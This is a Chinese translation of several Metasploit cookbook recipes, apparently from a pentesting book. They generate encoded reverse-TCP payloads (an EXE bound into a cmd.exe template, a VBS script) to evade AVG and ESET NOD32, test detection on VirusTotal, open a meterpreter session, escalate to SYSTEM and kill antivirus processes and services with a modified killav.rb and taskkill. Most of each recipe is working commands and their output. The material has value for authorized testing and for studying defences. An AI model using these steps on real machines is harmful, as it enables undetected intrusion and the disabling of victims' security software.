防病毒软件使用基于签名的技术，通过验证文件的前几行代码与其签名数据库来识别潜在威胁。如果找到匹配项，则将文件视为威胁。我们将不得不利用这种技术来绕过防病毒软件。`msfencode`是一种有效的工具，它对 shellcodes 进行编码，使它们对防病毒软件的检测能力降低。`msfencode`为我们提供了许多编码选项。

在开始这个步骤之前，有一件重要的事情要记住。这个步骤的成功取决于两个因素：使用的 shellcode 类型和目标机器上运行的防病毒软件类型。这个步骤涉及大量的实验，以检查使用哪种 shell 和可以用来绕过特定类型防病毒软件的编码类型。在这里，我们有两个目标。一个运行 Windows XP SP2，上面运行着 AVG 10（免费版本），另一个是运行 ESET NOD32（完整和更新版本）的 Windows 7 Ultimate 机器。首先，我们将讨论一种简单的技术，可以绕过旧的和未更新的防病毒软件，但可能会被最新版本的防病毒软件检测到。然后，我们将讨论另一种技术，目前可以绕过任何防病毒软件。

## 准备工作...

`msfencode`通常与`msfpayload`命令一起进行编码生成的 shellcode。这减少了我们的工作步骤。让我们先从`msfencode`开始。执行`msfencode -h`命令列出了我们可以使用的各种参数，`msfencode -l`列出了各种编码样式。让我们逐个看一下：

```
root@bt:~# msfencode -l
Framework Encoders
==================
Name Rank Description
---- ---- -----------
cmd/generic_sh good Generic Shell Variable Substitution Command Encoder
cmd/ifs low Generic ${IFS} Substitution Command Encoder
cmd/printf_php_mq manual printf(1) via PHP magic_quotes Utility Command Encoder
generic/none normal The "none" Encoder
mipsbe/longxor normal XOR Encoder
mipsle/longxor normal XOR Encoder
php/base64 great PHP Base64 encoder
ppc/longxor normal PPC LongXOR Encoder
ppc/longxor_tag normal PPC LongXOR Encoder
sparc/longxor_tag normal SPARC DWORD XOR Encoder
x64/xor normal XOR Encoder
x86/alpha_mixed low Alpha2 Alphanumeric Mixedcase Encoder
x86/alpha_upper low Alpha2 Alphanumeric Uppercase Encoder
x86/avoid_utf8_tolower manual Avoid UTF8/tolower
x86/call4_dword_xor normal Call+4 Dword XOR Encoder
x86/context_cpuid manual CPUID-based Context Keyed Payload Encoder
x86/context_stat manual stat(2)-based Context Keyed Payload Encoder
x86/context_time manual time(2)-based Context Keyed Payload Encoder
x86/countdown normal Single-byte XOR Countdown Encoder
x86/fnstenv_mov normal Variable-length Fnstenv/mov Dword XOR Encoder
x86/fnstenv_mov normal Variable-length Fnstenv/mov Dword XOR Encoder
x86/jmp_call_additive normal Jump/Call XOR Additive Feedback Encoder
x86/nonalpha low Non-Alpha Encoder
x86/nonupper low Non-Upper Encoder
x86/shikata_ga_nai excellent Polymorphic XOR Additive Feedback Encoder
x86/single_static_bit manual Single Static Bit
x86/unicode_mixed manual Alpha2 Alphanumeric Unicode Mixedcase Encoder
x86/unicode_upper manual Alpha2 Alphanumeric Unicode Uppercase Encoder 
```

框架中有许多不同的编码器，每个编码器都使用不同的技术来混淆 shellcode。`shikata_ga_nai`编码技术实现了多态 XOR 加性反馈编码器。解码器存根是基于动态指令替换和动态块排序生成的。寄存器也是动态选择的。

## 如何做...

我将这个步骤分为三种不同的情况，以更好地理解我们如何深入挖掘这个有用的工具并发展我们自己的逻辑。

**情况 1：**我们将从对一个简单的 shell 进行编码开始。`msfpayload`和`msfencode`命令将被一起进行管道处理。

```
root@bt:~# msfpayload windows/shell/reverse_tcp LHOST=192.168.56.101 R | msfencode -e cmd/generic_sh -c 2 -t exe > .local/encoded.exe
[*] cmd/generic_sh succeeded with size 290 (iteration=1)
[*] cmd/generic_sh succeeded with size 290 (iteration=2) 
```

让我们了解命令行。我们使用了`windows/shell/reverse_tcp` shell，并使用`R`参数生成了原始文件类型。然后，我们将`msfencode`命令进行了管道处理。`e`参数用于确定编码样式，在我们的情况下是`cmd/generic_sh`。`c`参数表示迭代次数，`t`参数表示编码后要创建的文件类型。最后，文件将在`.local`文件夹中创建，文件名为`encoded.exe`。当`encoded.exe`文件用于对我们的两个目标进行客户端攻击时，Windows XP（带有 AVG 10）和 Windows 7（带有 NOD32）都很容易识别它为威胁。它可能为我们提供了 shell 连接，但是这种活动被防病毒软件阻止了。

案例 2：现在我们将通过向 shell 添加默认的 Windows 可执行文件模板以及增加编码的迭代次数来增加这种编码的复杂性。默认模板将帮助我们通过将 shellcode 与默认的 Windows 可执行文件（如`calc.exe`或`cmd.exe`）绑定来创建一个不太可疑的文件。Windows 模板可在文件夹`/opt/framework3/msf3/lib/msf/util/../../../data/templates`中找到。

您可以通过将任何默认的 Windows 可执行文件复制到此文件夹中，然后将其用作模板来创建模板。在这个配方中，我已经将`cmd.exe`复制到这个文件夹中，以便将其用作我的 shell 的模板。那么在这种情况下，我们的命令行会是什么样子？

```
root@bt:~# msfpayload windows/shell/reverse_tcp LHOST=192.168.56.101 R | msfencode -e x86/shikata_ga_nai -c 20 -t exe -x cmd.exe> .local/cmdencoded.exe 
```

这种情况下唯一的额外参数是`-x`，用于指定替代可执行模板。我们使用了`cmd.exe`作为模板，这是命令提示符的默认 Windows 可执行文件。此外，我们还将编码样式更改为`shikata_ga_nai`，在`msfencode`中排名为“优秀”。在这种情况下，迭代次数也增加到了 20。在这种情况下创建的可执行文件看起来像一个`cmd.exe`可执行文件（因为模板），并且轻松地绕过了运行 AVG 10 防病毒软件的 Windows XP 目标的客户端防病毒保护。不幸的是，在我们运行最新版本的 NOD32 的 Windows 7 目标上被检测为威胁。因此，它可以用于绕过运行在 Windows 机器上的较旧版本的防病毒软件。这种技术的第二个问题是，即使在具有较旧的防病毒保护的 Windows 7/Server 2008 机器上，它也无法启动 shell。shellcode 在执行时崩溃（因为模板），即使它绕过了防病毒软件，仍然无法在较新版本的 Windows 上启动 shell。

案例 3：这种情况将克服我们在案例 2 中遇到的缺点。在这种情况下，我们将生成一个客户端脚本，而不是可执行文件。Windows 平台上众所周知的客户端脚本是 Visual Basic 脚本（.vbs）。这种技术可以用来绕过任何已知的运行在最新版本的 Windows 上的防病毒软件。VB 脚本成为绕过防病毒软件的潜在武器的原因是，它们从不被防病毒程序视为威胁，这就是为什么它们的签名从不与 VB 脚本文件匹配的原因。让我们使用`msfpayload`和`msfencode`创建一个恶意的 VB 脚本。

```
root@bt:~# msfpayload windows/shell/reverse_tcp LHOST=192.168.56.101 r | msfencode -e x86/shikata_ga_nai -c 20 -t vbs > .local/cmdtest2.vbs
[*] x86/shikata_ga_nai succeeded with size 317 (iteration=1)
[*] x86/shikata_ga_nai succeeded with size 344 (iteration=2)
[*] x86/shikata_ga_nai succeeded with size 371 (iteration=3)
.
.
.
.
[*] x86/shikata_ga_nai succeeded with size 803 (iteration=19)
[*] x86/shikata_ga_nai succeeded with size 830 (iteration=20) 
```

注意命令行中的轻微变化。唯一的变化是将 exe 替换为 VBS，并且我们没有使用任何模板，以防止客户端执行期间的崩溃。这种技术可以帮助我们绕过目标的防病毒保护，并提供 shell 连接。我们可以使用 multi/handler 模块（在前面的配方中讨论过）设置监听器，并等待目标执行脚本后与其建立反向连接。

到目前为止，您可能已经注意到，这个配方纯粹是基于尝试不同的有效载荷和编码器的组合。您尝试不同组合的次数越多，成功的机会就越大。在`msfpayload`和`msfencode`中有许多可以探索的东西，因此我鼓励您积极尝试不同的实验，并发现自己绕过防病毒保护的方法。

## 工作原理...

编码器主要用于将 shellcode 脚本混淆成无法被杀毒软件识别的形式。`shikata_ga_nai`编码器使用多态异或技术，编码器使用动态生成的 gats 作为编码器。`shikata_ga_nai`受欢迎的原因是它使用自解码技术。自解密意味着软件在运行时解密自身的一部分。理想情况下，软件只包含一个解密存根和加密代码。迭代通过多次使用相同的操作来使 shellcode 看起来完全陌生，以使杀毒软件难以识别。

## 还有更多...

让我们找到一个快速的方法来测试有效载荷针对不同的反病毒供应商，并找出它们中有多少检测到我们的编码有效载荷。

### 使用 VirusTotal 进行快速多重扫描

VirusTotal 是一个在线网站兼实用工具，可以将您的文件与多个杀毒软件供应商进行扫描，以找出有多少个杀毒软件将其检测为威胁。您可以将编码的有效载荷与病毒总和进行扫描，以找出它是否在任何杀毒产品中引发警报。这可以帮助您快速找出您的编码有效载荷是否在实际中有效。



VirusTotal 可以从[`www.virustotal.com`](http://www.virustotal.com)浏览。它会要求您上传要针对多个杀毒产品进行扫描的文件。扫描完成后，它将返回测试结果。

# 使用 killav.rb 脚本来禁用杀毒软件程序

在上一个示例中，我们专注于可以实施的各种技术，以绕过客户端杀毒软件保护并打开一个活动会话。好吧，故事并没有结束。如果我们想要从目标系统下载文件，或者安装键盘记录器等等。这样的活动可能会引起杀毒软件的警报。因此，一旦我们获得了一个活动会话，我们的下一个目标应该是悄悄地关闭杀毒软件保护。这个示例就是关于停用它们的。在目标机器上保持我们的活动不被检测到，杀死杀毒软件是必不可少的。

在这个示例中，我们将在活动会话期间使用一些可用的 meterpreter 脚本。我们有一个专门的章节专门介绍 meterpreter 脚本，所以在这里我只会对 meterpreter 脚本和一些有用的 meterpreter 命令进行快速介绍。我们将在下一章中详细分析 meterpreter。

## 准备工作

让我们从对 meterpreter 的快速介绍开始。Meterpreter 是一个高级有效载荷，极大地增强了对目标机器上命令执行的能力。它是一个命令解释器，通过内存中的 DLL 注入工作，并为我们提供了许多优势，相对于传统的命令解释器（通常存在于 shell 代码）来说，它更加灵活、稳定和可扩展。它可以像几个有效载荷一起在目标机器上工作。它通过分段套接字进行通信，并提供了全面的客户端端 ruby API。我们可以使用`windows/meterpreter`目录中可用的有效载荷来获得 meterpreter shell。在这个示例中，我们将使用`windows/meterpreter/reverse_tcp`有效载荷，我们的目标机器是运行 ESET NOD32 杀毒软件的 Windows 7。

让我们在 msfconsole 中设置监听器，并等待一个反向连接。

```
msf > use multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > show options
Module options (exploit/multi/handler):
Name Current Setting Required Description
---- --------------- -------- -----------
Payload options (windows/meterpreter/reverse_tcp):
Name Current Setting Required Description
---- --------------- -------- -----------
EXITFUNC process yes Exit technique: seh..
LHOST 192.168.56.101 yes The listen address
LPORT 4444 yes The listen port
Exploit target:
Id Name
-- ----
0 Wildcard Target
msf exploit(handler) > exploit
[*] Started reverse handler on 192.168.56.101:4444
[*] Starting the payload handler... 
```

## 如何做到...

1.  所以我们的监听器现在已经准备好了。一旦客户端攻击成功地在目标上执行，我们将在 msfconsole 中打开一个 meterpreter 会话。

```
[*] Sending stage (752128 bytes) to 192.168.56.1
[*] Meterpreter session 2 opened (192.168.56.101:4444 -> 192.168.56.1:49188) at 2011-11-29 13:26:55 +0530
meterpreter > 
```

1.  现在，我们已经准备好利用 meterpreter 在我们的杀毒实验中的力量。我们将执行的第一个命令是`getuid`，它会给我们系统的用户名，我们已经破解了。用户可以是主管理员或者是一个权限较低的用户。

```
meterpreter > getuid
Server username: DARKLORD-PC\DARKLORD 
```

1.  看起来我们在刚刚渗透的系统中没有管理员特权。下一步将是提升我们的特权到管理员，以便我们可以在目标上执行命令而不受干扰。我们将使用`getsystem`命令，尝试将我们的特权从本地用户提升到管理员。

```
meterpreter > getsystem
...got system (via technique 4).. 
```

1.  我们可以看到`getsystem`成功地使用`技术 4`，也就是 KiTrap0D 漏洞，提升了我们在渗透系统上的特权。我们可以再次使用`getuid`命令来检查我们新提升的 ID。

```
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM 
```

1.  现在我们拥有了主管理员权限。下一步将是运行`ps`命令，列出系统上所有正在运行的进程。我们将需要查看控制目标机器上运行的杀毒软件的那些进程（输出已经被缩短以适应）。

```
PID Name User Path
--- ---- ---- ----
1060 svchost.exe NT AUTHORITY\SYSTEM C:\Windows\System32\.
1096 svchost.exe NT AUTHORITY\SYSTEM C:\Windows\system32\.
1140 stacsv.exe NT AUTHORITY\SYSTEM C:\Windows\System32\.
1152 dsmonitor.exe DARKLORD-PC\DARKLORD C:\Program Files\Uni.
1744 egui.exe DARKLORD-PC\DARKLORD C:\Program Files\ESET\ESET NOD32 Antivirus\egui.exe
1832 eset.exe NT AUTHORITY\SYSTEM C:\Program Files\ESET\ESET NOD32 Antivirus\eset.exe 
```

1.  从`Name`和`Path`列中，我们可以很容易地识别出属于杀毒软件实例的进程。在我们的情况下，有两个进程负责目标系统上的杀毒保护。它们是`egui.exe`和`eset.exe`。让我们看看如何使用 Metasploit 来终止这些进程。

## 工作原理

Meterpreter 提供了一个非常有用的脚本，名为`killav.rb`，可以用来终止目标系统上运行的杀毒软件进程，从而禁用它。让我们在运行 ESET NOD32 杀毒软件的 Windows 7 目标上尝试这个脚本。

```
meterpreter > run killav
[*] Killing Antivirus services on the target... 
```

`run`命令用于在 meterpreter 中执行 Ruby 脚本。一旦脚本执行完毕，我们可以再次检查目标上正在运行的进程，以确保所有杀毒软件进程都已被终止。如果没有杀毒软件进程在运行，那么意味着杀毒软件已经在目标机器上被暂时禁用，我们现在可以继续进行渗透测试过程。

但是如果进程仍在运行怎么办？让我们在下一个步骤中找到解决方案。

# 深入了解 killav.rb 脚本

继续我们之前的步骤，我们专注于如何使用`killav.rb`脚本在目标机器上终止运行的杀毒软件进程。但是，如果进程仍在运行，或者即使使用脚本后它们仍未被终止，会怎么样呢？这可能有两个原因。要么`killav.rb`没有在其终止列表中包括这些进程，要么杀毒软件进程正在作为服务运行。在这个步骤中，我们将尝试克服这些问题。所以让我们快速进入我们的步骤。

## 准备工作

我们将从上一个步骤结束的地方开始相同的 meterpreter 会话。我们已经使用了`killav.rb`脚本一次，但是杀毒软件进程仍在运行。我们可以使用`ps`命令查看正在运行的进程。

```
PID Name User Path
--- ---- ---- ----
1060 svchost.exe NT AUTHORITY\SYSTEM C:\Windows\System32\.
1096 svchost.exe NT AUTHORITY\SYSTEM C:\Windows\system32\.
1140 stacsv.exe NT AUTHORITY\SYSTEM C:\Windows\System32\.
1152 dsmonitor.exe DARKLORD-PC\DARKLORD C:\Program Files\Uni.
1744 egui.exe DARKLORD-PC\DARKLORD C:\Program Files\ESET\ESET NOD32 Antivirus\egui.exe
1832 eset.ece NT AUTHORITY\SYSTEM C:\Program Files\ESET\ESET NOD32 Antivirus\eset.exe 
```

正如我们所看到的，即使使用了`killav.rb`脚本，这两个杀毒软件进程仍然存活。让我们先看一下`killav.rb`脚本。

## 如何操作

1.  要查看和编辑`killav.rb`脚本，请打开一个新的终端窗口，浏览到`/pentest/exploits/framework3/scripts/meterpreter`。

```
root@bt: cd /pentest/exploits/framework3/scripts/meterpreter
root@bt:/pentest/exploits/framework3/scripts/meterpreter# vim killav.rb 
```

1.  `vim`是 Unix 中用于快速编辑文件的编辑器。它将在我们的屏幕上打开整个脚本。向下滚动以查找其中列出的各种进程。这些是脚本寻找要终止的进程。检查整个列表，查找`eset.exe`和`egui.exe`。如果它们不可用，那么将这两个进程添加到脚本中。要在 vim 中启动编辑模式，请按*a*键。它将启动插入模式。现在在脚本的进程列表中添加这两个进程。

```
@@exec_opts.parse(args) { |opt, idx, val|
case opt
when "-h"
usage
end
}
print_status("Killing Antivirus services on the target...")
avs = %W{
egui.exe
eset.exe
AAWTray.exe
Ad-Aware.exe
MSASCui.exe
_avp32.exe 
```

1.  以下代码片段显示了列表顶部添加的两个进程。要退出插入模式，请按*esc*键。现在要保存脚本，请按*:*键。您将进入 vim 编辑器的迷你命令提示符。现在输入`wq`以保存并退出编辑器。

```
:wq

```

1.  现在回到 meterpreter 会话，再次执行`killav.rb`脚本，注意发生了什么。

```
meterpreter > run killav.rb
[*] Killing Antivirus services on the target...
[*] Killing off egui.exe...
[*] Killing off eset.exe... 
```

1.  命令执行的输出显示脚本成功杀死了两个进程。现在，为了验证所有杀毒软件进程是否已被杀死，我们将再次执行`ps`命令进行交叉检查（输出缩短以适应）。

```
meterpretr> ps
PID Name User Path
--- ---- ---- ----
1060 svchost.exe NT AUTHORITY\SYSTEM C:\Windows\System32\.
1096 svchost.exe NT AUTHORITY\SYSTEM C:\Windows\system32\.
1140 stacsv.exe NT AUTHORITY\SYSTEM C:\Windows\System32\.
1152 dsmonitor.exe DARKLORD-PC\DARKLORD C:\Program Files\Uni. 
```

您会发现 ESET 杀毒软件没有活动进程。这表明脚本成功杀死了杀毒软件程序。这个例子清楚地展示了我们如何通过添加自己的输入来增加内置脚本的效率。

## 它是如何工作的...

让我们快速看一下我们在本篇文章中积极使用的`killav.rb`脚本。脚本包含一个数组（%W）中的整个进程列表，它在目标机器上查找并杀死。

```
client.sys.process.get_processes().each do |x|
if (avs.index(x['name'].downcase))
print_status("Killing off #{x['name']}...")
client.sys.process.kill(x['pid'])
end
end 
```

代码的最后几行是不言自明的。脚本在目标系统上查找正在运行的进程与其数组进行匹配。当找到匹配时，它使用`process.kill`函数来终止进程。这个循环会一直持续，直到数组的所有元素与可用进程匹配。

# 从命令行杀死杀毒软件服务

在上一篇文章中，我们给出了杀毒软件进程在使用`killav.rb`脚本后仍然运行的两个原因。在上一篇文章中，我们解决了第一个问题，即`killav.rb`列表不包括要被杀死的进程。在本篇文章中，我们将解决第二个问题，即杀毒软件程序在目标机器上作为服务运行。在我们继续之前，让我们先了解一下进程和服务之间的区别。

进程是计算机上正在运行的任何软件。一些进程在计算机启动时启动，其他的在需要时手动启动。一些进程是服务，它们发布方法以便其他程序可以根据需要调用它们。进程是基于用户的，而服务是基于系统的。

杀毒软件也可以作为服务运行一些组件，比如电子邮件过滤器、网络访问过滤器等。`killav.rb`脚本无法杀死服务。所以，即使我们使用`killav.rb`杀死了进程，杀毒软件服务也会立即重新启动它们。所以即使`killav.rb`杀死了所有杀毒软件进程，但每次使用`ps`命令时它们仍然被列出，那么可以得出结论，杀毒软件的某个组件作为服务在负责重复启动进程。

## 准备好了

我们将从一个场景开始，目标机器是运行 AVG 10 杀毒软件的 Windows 7 机器。我假设我们已经与目标机器建立了一个具有管理员权限的活动 meterpreter 会话。

## 如何做...

1.  这个配方将使用 Windows 命令提示符。所以我们将从打开一个带有目标的命令提示符 shell 开始。

```
meterpreter > shell
Process 3324 created.
Channel 1 created.
C:\WINDOWS\system32> 
```

1.  现在，我们将使用`tasklist`命令来查找各种可用任务。添加`/SVC`参数将只列出作为服务运行的进程。由于我们知道目标机器正在使用 AVG 杀毒软件，我们可以添加通配符搜索，只列出属于 avg 的服务。因此，我们的命令行将如下所示：

```
C:\WINDOWS\system32>tasklist /SVC | find /I "avg"
tasklist /SVC | find /I "avg"
avgchsvx.exe 260 N/A
avgrsx.exe 264 N/A
avgcsrvx.exe 616 N/A
AVGIDSAgent.exe 1664 AVGIDSAgent
avgwdsvc.exe 116 avg9wd
avgemc.exe 1728 avg9emc 
```

所以我们有一个完整的列表或服务和进程为 AVG 杀毒软件。下一步将是发出`taskkill`命令来终止这些任务并禁用杀毒软件保护。

1.  我们可以再次使用通配符搜索来杀死所有进程名称为`avg`的任务。

```
C:\WINDOWS\system32>taskkill /F /IM "avg*" 
```

`/F`参数用于强制终止进程。这将最终杀死目标机器上运行的各种杀毒软件服务。这个配方有很多地方可以探索。您可能会遇到一些问题，但可以通过遵循正确的一系列命令来克服。

## 它是如何工作的...

从命令行杀死服务只是调用操作系统来禁用特定服务。一旦我们与目标建立了一个活动的 shell 会话，我们可以代表命令行通过我们的 shell 调用这些命令。

## 还有更多...

让我们用一些最终说明来结束这个配方，讨论一下如果杀毒软件服务仍然存在该怎么办。

### 有些服务没有被终止，接下来怎么办？

这可能是由于几个原因。当你使用`taskkill`命令时，可能会出现一些服务的错误。为了克服这个问题，我们可以使用`net stop`和`sc config`命令来处理这些服务。我建议你从微软的网站上了解这两个命令的用法。它们可以帮助我们终止或禁用那些无法通过`taskkill`命令停止的服务。
